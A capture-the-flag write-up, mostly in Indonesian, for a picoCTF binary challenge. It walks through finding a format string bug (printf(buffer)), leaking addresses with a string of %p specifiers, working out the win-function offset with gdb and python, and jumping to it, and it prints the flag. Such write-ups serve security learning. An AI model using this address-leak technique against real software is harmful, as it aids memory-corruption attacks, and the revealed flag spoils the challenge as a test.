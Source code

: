 Author: Darkraicg492
Description
Can you try to get the flag? I'm not revealing anything anymore!!
Additional details will be available after launching your challenge instance.

Skills gained: Jumping address exploit, format string vurnerability

1. jalankan instance dan masukka nc ke terminal dan download juga file source code dan binarynya
2. ketika menjalankan nc pada terminal, terdapat input untuk memasukkan username dan sesudah itu input lompat address. Sepertinya disini kelemahannya adalah format string vurnerability
3. Buka vuln.c dengan ide atau note apapun
4. ya terdapat jelas kode vurnerability pada

	char buffer[64];
 	printf("Enter your name:");
  	fgets(buffer, 64, stdin);
  	printf(buffer);

5. Kenapa itu bisa menjadi kelemahan/vurnerability disini? karena printf(buffer) tidak melakukan print string secara eksplisit yang seharusnya untuk aman adalah "%s"
6. disini sudah jelas kelemahan dan tujuannya (kita harus lompat ke fungsi win) tapi.. gimana cara mencari address alamat main dan win nya?
7. untuk sekarang Buka binary tersebut dengan ghidra atau cutter atau objdump atau gdb untuk mengecek alamat addres addres ini
	
 	gdb:

		(gdb) disas main

		Dump of assembler code for function main:
   		0x0000555555555400 <+0>:	endbr64
   		0x0000555555555404 <+4>:	push   %rbp
   		0x0000555555555405 <+5>:	mov    %rsp,%rbp
   		0x0000555555555408 <+8>:	lea    -0x166(%rip),%rsi        # 0x5555555552a9 <segfault_handler>
	  	0x000055555555540f <+15>:	mov    $0xb,%edi
	  	0x0000555555555414 <+20>:	call   0x555555555170 <signal@plt>
	  	0x0000555555555419 <+25>:	mov    0x2bf0(%rip),%rax        # 0x555555558010 <stdout@@GLIBC_2.2.5>
	  	0x0000555555555420 <+32>:	mov    $0x0,%ecx
	  	0x0000555555555425 <+37>:	mov    $0x2,%edx
	  	0x000055555555542a <+42>:	mov    $0x0,%esi
	  	0x000055555555542f <+47>:	mov    %rax,%rdi
	  	0x0000555555555432 <+50>:	call   0x555555555180 <setvbuf@plt>
		0x0000555555555437 <+55>:	mov    $0x0,%eax
	  	0x000055555555543c <+60>:	call   0x5555555552c7 <call_functions>
	  	0x0000555555555441 <+65>:	mov    $0x0,%eax
		0x0000555555555446 <+70>:	pop    %rbp
	  	0x0000555555555447 <+71>:	ret

10. alamat untuk main adalah 400, sekarang bagian alamat win nya
	
 	gdb:
	
	 	(gdb) disas win
		Dump of assembler code for function win:
	   		0x000055555555536a <+0>:	endbr64
	   		0x000055555555536e <+4>:	push   %rbp
	   		0x000055555555536f <+5>:	mov    %rsp,%rbp
	   		0x0000555555555372 <+8>:	sub    $0x10,%rsp
	   		0x0000555555555376 <+12>:	lea    0xcf6(%rip),%rdi        # 0x555555556073
	   		...
	   		...

12. oke, alamat untuk win adalah 36a. Alamat win dan mainnya sudah ketemu tapi.. sekarang gimana cara kita melompatinya? untuk melompati ini membutuhkan offset dari pengurangan alamat main dengan alamat win
13. dengan cara
	
 		python3 -c "print(hex(0x0000555555555400 - 0x000055555555536a))"
		hasilnya: 0x96

14. et tapi.. kita harus memastikan dulu apakah alamat win atau main dari nc picoctf ini sama atau beda?, kita bisa memastikan dengan cara mengisi %p sebanyak lebih dari 20 kali (%p ini adalah format hexadecimal memory address)
	hasilnya:
	
	 	Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
		0x5d94123332a1(nil).0x5d94123332dd.0x7ffd34a32430.0x7c.0x7ffd34b20228.0x7ec4492206a0.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e.0x5d940be581c0.0x307e03c48e7fa100.0x7ffd34a32490.0x5d940be58441.(nil).
	 	enter the address to jump to, ex => 0x12345: ^C

13. dan ternyata hasil dari main yang dipanggil dalam nc itu adalah 441 dan bukan 400, sekarang kita mengurangi 441 - 36a
	
		python3 -c "print(hex(0x441 - 0x36a))"             
		hasilnya: 0xd7

14. sesudah itu kita kurangi 441 dengan 0xd7 yang dari nc itu 
	contoh dariku:

		python3 -c "print(hex(0x5e0ab77a2441 - 0xd7))"
		hasilnya: 0x5e0ab77a236a

16. dan hasilnya seperti ini:
	nc rescued-float.picoctf.net 54031
	
 		Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
		0x5e0abd1102a1(nil).0x5e0abd1102dd.0x7ffc19153af0.0x7c.0x7ffc1915e228.0x753d1ff9f6a0.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e.0x5e0ab77a21c0.0xa73378bb7a919100.0x7ffc19153b50.0x5e0ab77a2441.(nil).
 		enter the address to jump to, ex => 0x12345: 
		0x5e0ab77a236a
		You won!
		picoCTF{p13_5h0u1dn'7_134k_1ef23143}

# Flag
flag: picoCTF{p13_5h0u1dn'7_134k_1ef23143}

